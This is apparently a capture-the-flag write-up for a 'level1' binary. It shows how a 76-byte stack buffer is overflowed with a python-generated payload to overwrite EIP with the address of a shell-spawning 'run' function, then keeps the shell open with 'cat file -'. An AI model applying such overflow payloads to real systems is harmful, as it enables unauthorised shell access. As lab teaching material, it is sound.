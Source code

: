 After decompiling the code we can see a buffer of 76 bytes in the main and a run function that open a shell.

Using GDB we can see the run function address

```Console
(gdb) info function
[...]
0x08048444  run
[...]

```

Using python we create an input to fill our buffer and overwrite
the EIP registre with the run function address in little endian.

```Shell
python3 -c "print('A' * 76 + '\x44\x84\x04\x08')" > output.txt

```

As we run level1 with our file as input the shell is non interactive and quit 
after executing the run function.To force the shell to be interactive we add 
`-` to our `cat` command to print stdin after the content of our file
and force the program to wait for user input.

```Shell
cat /tmp/output.txt  - | ./level1

```